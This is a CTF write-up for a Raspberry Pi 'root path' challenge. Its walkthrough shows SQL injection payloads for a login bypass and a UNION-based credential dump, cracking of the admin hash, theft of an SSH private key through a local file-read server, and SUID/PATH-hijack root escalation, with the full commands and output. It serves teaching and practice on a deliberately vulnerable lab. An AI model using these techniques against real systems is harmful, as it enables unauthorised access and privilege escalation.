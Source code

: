 # Raspberry Peist

The 'root path' for our BakeryTF - these challenges led to the rooting of the Raspberry Pi, which was the main prize for the weekend. The first to root got to take it home.

The root path was primarily designed by Mac and Nick. Mac wrote the front end parts of the challenge and the priv esc to user 2, Nick and Brooks designed the priv esc to root, and Brooks and Mac implemented the Docker setup for deploying the challenge.

## Overview

### CTF Management Console

<details>

<summary>Spoilers</summary>

The first part of the challenge involved finding the 'CTF Management Console', hosted on the Raspberry Pi. The IP address was hidden in a `robots.txt` file on the CTFd page.

Once into the management console, players could exploit a pair of simple SQL Injections; one to gain access to the admin panel, and another to extract user data from the table. This allowed them to crack the admin's password.

</details>

### Shell as intern

<details>

<summary>Spoilers</summary>

The password extracted from the UNION injection on the admin console could be cracked. This then allowed access to the Raspberry Pi over SSH as the intern user.

</details>

### Shell as master-baker

<details>

<summary>Spoilers</summary>

As `intern`, we can do some basic enumeration of the Linux system. `ps aux` reveals a webserver that is running locally. We can curl the webserver to find out that it's an application designed to read files on the local system. As it's running as `master-baker`, we can read their SSH key with a simple `curl` request and SSH in as them.

</details>

### Shell as root

<details>

<summary>Spoilers</summary>

As `master-baker` we have access to a file `.egg-cracker` that has a SUID bit - this means it can run as root. The file is an ELF that appears to run `chmod`. There are two paths here - we can use the file to give another file a sticky bit and make it writeable and executable, then run it to spawn a shell as `root`; or we can create a `chmod` binary on our path that spawns a shell, and trick the `.egg-cracker` file into running this instead. This was the solution used by SherlockSec to claim the grand prize!

</details>

## Running the Challenge

## Running the Challenge

To run the challenge locally, simply use:

```bash
$ docker-compose up
```

This will copy across all the necessary files to the container and start the webserver.

## Solution

<details>

<summary>Full Solution - Spoilers!</summary>

### CTF Management Page

First, users had to go to `/robots.txt` on the CTFd platform. If you are running this challenge locally after the CTF has ended, this step won't apply. The `robots.txt` file points to the `/ctf-management-page` URL, which has the IP of the Raspberry Pi hidden in the source.

Visiting the IP, we see a website that appears to be for managing the CTF. There is a login form which is vulnerable to a basic SQL Injection - we can supply `' OR 1=1;--` as our username, which causes the SQL query to select the first user from the database and log us in as the `admin` user.

Now we're authenticated in the admin panel, we can see a second page, `/admin/search`, which seems to let us search challenges that are part of the CTF. A message on the page also tells us that the SSH service is running on a non-standard port, `2222`, and that we should login as the `intern` user... once we have a password, of course.

As the login form was vulnerable to SQL Injection, we can try a similar attack on the search form. Search forms are often vulnerable to a `UNION` injection - a search form may run a query such as `SELECT id, title, description FROM challenges WHERE title LIKE '%{input}%';` - we can attempt to inject into the input field to make the query return data from another table, like so: `SELECT id, title, description FROM challenges WHERE title LIKE '%' UNION SELECT id, username, password FROM users;--%';`. To do so, we just submit `' UNION SELECT id, username, password FROM users;--` as our search term. This then appends a user entry to our results table, containing a password entry, `be49db543011ca91169903c1a3ca2c23`!

The password is hashed - we can try and crack it in [https://crackstation.net/](https://crackstation.net/) - it cracks almost instantly, outputting `chinchilla`.

### Shell as intern

Using the credentials we cracked, we can login as `intern`. We just need to specify the port as `2222` and supply the password, `chinchilla`:

```bash
$ ssh -p 2222 intern@139.162.206.87
The authenticity of host '[139.162.206.87]:2222 ([139.162.206.87]:2222)' can't be established.
ECDSA key fingerprint is SHA256:BlPIOuc0Uidgd2p4WKMbcrxKtW6hFyAx4FN09gJKSn4.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[139.162.206.87]:2222' (ECDSA) to the list of known hosts.
intern@139.162.206.87's password:
Last login: Mon May 17 17:54:37 2021 from 192.168.16.1
[intern@SESH-PI ~]$
```

We can also submit this password on CTFd for a flag and some points.

### Shell as master-baker

Now we're `intern` we can read the `user.txt` file to get the next flag:

```bash
[intern@SESH-PI ~]$ cat user.txt
sesh{w3lC0me_t0_ouR_SeRv3r!}
```

Running some basic enumeration on the filesystem, we can see there is a local webserver running on port `9999`:

```bash
[intern@SESH-PI ~]$ ss -lntp
State               Recv-Q              Send-Q                           Local Address:Port                             Peer Address:Port              Process
LISTEN              0                   4096                                 127.0.0.1:9999                                  0.0.0.0:*
LISTEN              0                   4096                                127.0.0.11:45045                                 0.0.0.0:*
LISTEN              0                   128                                    0.0.0.0:22                                    0.0.0.0:*
LISTEN              0                   128                                    0.0.0.0:5000                                  0.0.0.0:*
LISTEN              0                   128                                       [::]:22                                       [::]:*
```

(running a similar command, such as `ps aux`, would also tell us the owner of this process - it turns out to be the `master-baker` user, who we could also have discovered by reading the `/etc/passwd` file or similar)

```bash
[intern@SESH-PI ~]$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           8  0.0  0.1  14776  4792 ?        S    May17   0:00 su master-baker -c cd ~/ && php -S localhost:9999
root           9  0.0  0.1  14776  4540 ?        S    May17   0:00 su flask -c /home/flask/ctf-management/run.sh
master-+      10  0.0  0.5  74428 19704 ?        Ss   May17   0:01 php -S localhost:9999
```

Let's give it a `curl` to see what it does:

```bash
[intern@SESH-PI ~]$ curl http://localhost:9999
<h1>My File Reader</h1>

<a href="/get-file.php">Read My Files!</a>
```

So it looks like it can read a file - as it's owned by `master-baker`, we can likely use it to read their files. But what to read? We can try something that would allow us to escalate privileges... like an `id_rsa` file:

```bash
[intern@SESH-PI ~]$ curl http://localhost:9999/get-file.php?file=.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...[snip]...
tE0bB89AtxC3m1AAAACnRsbEBCSVRCT1g=
-----END OPENSSH PRIVATE KEY-----
```

We got lucky! The webserver was running out of `master-baker`'s home directory, so we could go straight to `.ssh` - if it wasn't, we would have to do some extra enumeration to try and figure out where we were, or just request the file with a full path (`/home/master-baker/.ssh/id_rsa`)

This SSH private key will let us SSH as `master-baker`. Let's copy the key to our local system, then SSH with the following command:

```bash
$ echo [KEY] > master_baker
$ chmod 600 master_baker
$ ssh -p 2222 -i master_baker master-baker@139.162.206.87
[master-baker@SESH-PI ~]$
```

### Shell as Root

Now we're `master-baker` we can have a poke around the file system and grab the user flag:

```bash
[master-baker@SESH-PI ~]$ ls -la
total 56
drwx------ 1 master-baker master-baker 4096 May 15 11:53 .
drwxr-xr-x 1 root         root         4096 May 15 11:53 ..
lrwxrwxrwx 1 master-baker master-baker    9 May 15 11:08 .bash_history -> /dev/null
-rw-r--r-- 1 master-baker master-baker   21 May 12 23:41 .bash_logout
-rw-r--r-- 1 master-baker master-baker   57 May 12 23:41 .bash_profile
-rw-r--r-- 1 master-baker master-baker  141 May 12 23:41 .bashrc
---------- 1 root         root          176 May 15 09:15 .egg
-rwsr-xr-x 1 root         root         9584 May 15 09:18 .egg-cracker
-rw-r--r-- 1 master-baker master-baker  141 May 15 11:53 get-file.php
-rw-r--r-- 1 master-baker master-baker   69 May 15 11:53 index.php
-rw-r--r-- 1 root         root           32 May 15 11:53 master.txt
drwxr-xr-x 1 master-baker master-baker 4096 May 15 11:08 .ssh
[master-baker@SESH-PI ~]$ cat master.txt
sesh{y0u_are_Th3_M45t£r_B4ker}
```

We see a file, `.egg-cracker` that has a SUID bit set (indicated by the `s` in the file permissions). We can see what this is:

```bash
[master-baker@SESH-PI ~]$ file .egg-cracker
.egg-cracker: setuid ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, not stripped
```

Running it gives us a bit more information - we can see it's trying to run `chmod`:

```bash
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: idk
chmod: invalid mode: ‘idk’
Try 'chmod --help' for more information.
```

We can also look at `.egg`:

```bash
Do not try and crack the egg, that's impossible. Instead, only try to realize
the truth...there is no egg. Then you will see it is not the egg that
cracks, it is the whole pi.
```

As it's owned by root, we can try to give this some useful permissions:

```bash
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: u+s .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: 777 .egg
```

These are the new permissions:

```bash
-rwsrwxrwx 1 root         root            3 May 17 18:03 .egg
```

It's now writeable, executable, and crucially has a sticky bit - this means when we execute it, it executes as root!

So we can edit its contents... But to do what? We can't use a plain `/bin/bash`, as bash is [designed for security reasons to drop its privileges](https://focus-linux.securityfocus.narkive.com/L4uQ5nDr/no-root-shell-with-suid-bin-bash) if run with suid (but we can try and see what happens):

```bash
[master-baker@SESH-PI ~]$ cat /bin/bash > .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: u+s .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: 777 .egg
[master-baker@SESH-PI ~]$ ./.egg
[master-baker@SESH-PI ~]$ exit
exit
[master-baker@SESH-PI ~]$
```

Instead, we can do a trickier thing, and spawn a shell with python:

```bash
[master-baker@SESH-PI ~]$ cp /usr/bin/python .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: u+s .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: +x .egg
[master-baker@SESH-PI ~]$ ./.egg
Python 3.9.5 (default, May 12 2021, 20:31:15)
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> import pty
>>> pty.spawn("/bin/bash")
[root@SESH-PI ~]# cat /root/root.txt
sesh{congr4tuLations_you_W1n_A_RasPB3RRY_P1!}
```

This replaces `.egg` with the python process, lets it run as root, and then uses python to spawn a shell - neat.

#### Alternative Solution

Here's what SherlockSec did to root the Pi:

```bash
[master-baker@SESH-PI ~]$ ls -la
total 60
drwx------ 1 master-baker master-baker 4096 May 15 11:53 .
drwxr-xr-x 1 root         root         4096 May 15 11:53 ..
lrwxrwxrwx 1 master-baker master-baker    9 May 15 11:08 .bash_history -> /dev/null
-rw-r--r-- 1 master-baker master-baker   21 May 12 23:41 .bash_logout
-rw-r--r-- 1 master-baker master-baker   57 May 12 23:41 .bash_profile
-rw-r--r-- 1 master-baker master-baker  141 May 12 23:41 .bashrc
-r-xr-xr-x 1 root         root          176 May 15 09:15 .egg
-rwsr-xr-x 1 root         root         9584 May 15 09:18 .egg-cracker
-rw-r--r-- 1 master-baker master-baker  141 May 15 11:53 get-file.php
-rw-r--r-- 1 master-baker master-baker   69 May 15 11:53 index.php
-rw-r--r-- 1 root         root           32 May 15 11:53 master.txt
drwxr-xr-x 1 master-baker master-baker 4096 May 15 11:08 .ssh
[master-baker@SESH-PI ~]$ file .egg
.egg: ASCII text
[master-baker@SESH-PI ~]$ cat .egg
Do not try and crack the egg, that's impossible. Instead, only try to realize
the truth...there is no egg. Then you will see it is not the egg that
cracks, it is the whole pi.
[master-baker@SESH-PI ~]$ file .egg-cracker
.egg-cracker: setuid ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, not stripped
[master-baker@SESH-PI ~]$ strings .egg-cracker
-bash: strings: command not found
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?:
chmod: missing operand
Try 'chmod --help' for more information.
sh: line 2: .egg: command not found
[master-baker@SESH-PI ~]$ $PATH
-bash: /usr/local/sbin:/usr/local/bin:/usr/bin: No such file or directory
[master-baker@SESH-PI ~]$ cd /tmp
[master-baker@SESH-PI tmp]$ echo "/bin/bash" > chmod
[master-baker@SESH-PI tmp]$ chmod 777 chmod
[master-baker@SESH-PI tmp]$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/bin
[master-baker@SESH-PI tmp]$ export PATH=/tmp:$PATH
[master-baker@SESH-PI tmp]$ cd ~
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?:
[root@SESH-PI ~]# cd /root
[root@SESH-PI root]# ls
root.txt
[root@SESH-PI root]# cat root.txt
sesh{congr4tuLations_you_W1n_A_RasPB3RRY_P1!}
```

This solution makes use of the fact that the `.egg-cracker` file is running `chmod` - by writing their own `chmod` executable and placing it first on the path, running `.egg-cracker` runs the malicious `chmod` instead of the standard one (and does so as root, due to its suid bit). This was a path we hadn't thought of, and just shows off the many dangers of SUID, so congrats to SherlockSec!

</details>